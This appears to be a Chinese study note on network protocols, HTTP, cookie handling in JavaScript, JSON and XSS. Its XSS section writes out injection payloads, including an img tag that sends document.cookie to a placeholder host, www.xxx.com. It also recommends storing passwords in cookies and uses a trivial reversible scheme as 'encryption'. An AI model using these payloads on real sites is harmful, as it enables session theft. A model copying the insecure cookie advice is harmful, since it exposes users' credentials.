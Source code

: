## 通信协议
	为了能够让不同设备通过网络进行互联互通、数据交互，必须规定大家都要遵守的标准“通信协议”。当前ISO标准是7层网络模型：
	（1）应用层：对应应用程序的通信服务的。示例：telnet，HTTP,FTP,WWW,NFS,SMTP等。
	（2）表示层：定义数据格式及加密，例：FTP以二进制或ASCII格式传输。
	（3）会话层：完成连续消息通知表示层，表示层看到的数据是连续的。示例：RPC，SQL等。
	（4）传输层：不同应用的数据流的输入进行复用，数据包的重新排序功能。示例：TCP，UDP，SPX。
	（5）网络层：定义逻辑地址，路由实现的方式。示例：IP,IPX等。
	（6）数据链路层：如何将数据组合成数据块（帧）传送，如何处理传输差错。示例：ATM，FDDI等。
	（7）物理层：有关传输介质的特性标准。连接头、针、针的使用、电流等。示例：Rj45，802.3等。
	
	互联网使用TCP/IP协议：
		联网设备地址使用IP协议，如何打包数据，数据包编号使用TCP协议。
		TCP把应用程序的数据分割打成IP包，IP负责把包传给目标设备。
	
## HTTP
	http（超文本传输协议）是一个基于请求与响应的应用层协议。
	url请求资源的地址 http://host[":"port][abs_path]
	host 主机名，对应IP地址的一个点或一段；port 端口号 ；abs_path 主机上的资源路径
	
	请求方式：
		get请求，将请求数据作为url一部分发送，不安全，传输数据量小，方便易用。
		post请求，传输数据量大，安全，一般做表单提交。

	常见响应状态码：
		200 OK //客户端请求成功
		400 Bad Request //客户端请求有语法错误，不能被服务器所理解
		401 Unauthorized //请求未经授权，这个状态代码必须和WWW-Authenticate报头域一起使用
		403 Forbidden //服务器收到请求，但是拒绝提供服务
		404 Not Found //请求资源不存在，输入了错误的URL
		500 Internal Server Error //服务器发生不可预期的错误
		503 Server Unavailable //服务器当前不能处理客户端的请求，一段时间后可能恢复正常
	
## Cookie的概念
	cookie 是存储于访问者的计算机中的变量。每当同一台计算机通过浏览器请求某个页面时，就会发送这个 cookie。你可以使用 JavaScript 来创建和取回 cookie 的值。
	
	你可以把用户的登录名密码存储于cookie中，就可以实现自动登录。也可以用来保存购物车信息。
	
	Cookie的特点:
		（1）cookie可能被禁用。
		（2）cookie是与浏览器相关的。不同浏览器所保存的cookie也是不能互相访问的。
		（3）cookie可能被用户删除。
		（4）cookie安全性不够高。如果要保存用户名密码等信息时，最好事先经过加密处理。
		（5）存储的数据量 4k 大小，cookie只支持存储string类型的数据。
		（6）简单易用。
		（7）信息存储于用户硬盘，因此可以作为全局变量。
	
## Cookie格式
	cookie就是一串字符串，格式就是键值对，分号隔开，三个属性可有可无
	
	cookieName=cookieValue;expires=GMTString;path=URLpath;domain=siteDomain
	cookie名称 cookie值 失效日期 可访问url 可访问主机
	document.cookie=“cookieName=cookieValue”;//设置cookie

	没有指定失效日期的cookie在浏览器关闭后就消失。
	可访问url指定网站下能够访问cookie的路径。例：/shop
	可访问主机指定可访问cookie的主机名。例：www.163.com和mail.163.com指定为163.com
	注：失效日期由date.toGMTString（）方法取得。
	
## 写入/读取cookie	
	写入7天后过期的cookie
	var date=new Date();
	date.setDate(date.getDate()+7);
	document.cookie="userName=zhang; expires="+date.toGMTString();
	document.cookie="userPws=123456; expires="+date.toGMTString();
	
	读取上边写入的cookie，因为cookie每次是全部获取，所以需要自己写解析cookie的代码。
		var uname,upws;
		var cookiearr=document.cookie.split("; ");
		for(var i=0;i<cookiearr.length;i++){
			var coocieItem=cookiearr[i].split("=");
			if(coocieItem[0]=="userName"){
				uname=coocieItem [1];
			}
			if(coocieItem[0]=="userPws"){
				upws=coocieItem [1];
			}
		}
	
## Cookie的其他操作
	添加与覆盖：
		浏览器用cookie名称来区别cookie，添加不同名称cookie会一直续在前一个cookie后，同名的cookie会覆盖值。

	删除cookie：
		不能直接删除cookie，但是设置失效日期为过去，浏览器会删除cookie。

	中文及特殊字符支持：
		使用escape（）函数编码cookie值，读取时使用unescape（）函数解码。

	判断cookie是否存在：
		document.cookie.indexOf(NameOfCookie+“=”); //使用字符串函数indexOf
	例：document.cookie=“str=”+escape(“I love ajax”);相当于document.cookie="str=I%20love%20ajax";	
	
## Json2的方法	
	JSON2.js文件提供字符串转JSON和JSON转字符串的方法
	JSON.parse()【从一个字符串中解析出JSON对象】
	
	例子：
		var data='{"name":"goatling"}'
		JSON.parse(data)
	结果是：
		{name:"goatling“}
		JSON.stringify()【从一个JSON对象中解析出字符串】
		var data={name:'goatling'}
		JSON.stringify(data)
	结果是：
		'{"name":"goatling"}‘

## cookie的安全策略
	XSS攻击：
		跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
	
### cookie的安全策略（攻击代码示例）
	html代码
	<body>
		<span id="s"></span>
		<textarea id="txtId" style="width:200px;height:200px" ></textarea>
		<input id="btn" type="button" value="测试" />
	</body>

	script代码
	window.onload = function(){
		document.getElementById("btn").onclick = function(){
			document.getElementById("s").innerHTML = document.getElementById("txtId").value;
		}
	}
	
	运行html页面，在文本域里输入：
		<a href="" onclick="javascript:{alert('dd');for(var i=0;i<10;i++){alert(i)}}" >百度</a>
	
## XSS攻击：
	XSS攻击：
	<script>alert(document.cookie)</script>
	<a href="" onclick="javascript:(function(){alert(444);})()">超级</a>
	这段代码能够发送当前cookie到www.xxx.com
	<img src='http://www.xxx.com?cookie='+document.cookie;/> 
	cookie欺骗：
		拿到cookie后，分析出用户名和密码，然后修改自己的cookie为分析出的用户名密码，访问网站成功登录。

	如何防范：
		1，Html转码（防止“<”等特殊字符，防止注入js）
		2，敏感信息加密
		3，cookie和ip地址绑定（cookie检查ip地址，ip和cookie不符的不能登录，需要服务器端配合）
	
	//加密 abcd 经过compile() 后 e
	function compile(code){
		var c=String.fromCharCode(code.charCodeAt(0)+code.length);
			for(var i=1;i<code.length;i++){
				c+=String.fromCharCode(code.charCodeAt(i)+code.charCodeAt(i-1));
			}
			return(escape(c));
		}
		
	//解密
	function uncompile(code){
	code=unescape(code);
	var c=String.fromCharCode(code.charCodeAt(0)-code.length);
		for(var i=1;i<code.length;i++){
			c+=String.fromCharCode(code.charCodeAt(i)-c.charCodeAt(i-1));
		}
		return c; 
	}
	
## Cookie的封装	
	设置cookie
	function setCookie (key, value, t) {
		var oDate = new Date();
		oDate.setDate(oDate.getDate() + t);
		document.cookie = key + ‘=’ +escape(value) + '; expires=' + oDate.toGMTString()
	}
	
	获取cookie
	function getCookie (key) {
		var arr1 = document.cookie.split(';');
		for( var i=0;i<arr1.length; i++ ) {
			var arr2 = arr1[i].split('=');
			if( arr2[0] == key ){
				return unescape(arr2[1]);
			}
		}
	}

	判断浏览器是否禁用cookie
		var cookieEnabled=(navigator.cookieEnabled)? true : false
	
	移除cookie
	function removeCookie (key) {
		setCookie(key, ' ', -1);
	}	